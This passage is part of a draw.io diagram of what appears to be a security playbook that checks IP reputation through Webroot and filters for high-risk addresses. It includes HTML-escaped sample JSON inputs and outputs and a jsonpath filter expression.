horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;168.63.129.16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 917998624,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.183.140.32&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;29&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;&lt;p&gt;&amp;nbsp;&amp;nbsp;&lt;/p&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="685" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-194" value="Get Malicious IPs&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="5655" y="810" width="185" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-196" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Check IP Reputation - Webroot&quot;].rawData.results&#39;) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{results|jsonpath(&#39;$[?queries.getinfo.riskLevel &amp;gt;= 5]&#39;)}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="640" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-197" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;[&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; }&lt;/div&gt;&lt;div&gt;]&lt;/div&gt;&lt;div&gt;&amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="675" width="200" height="100" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
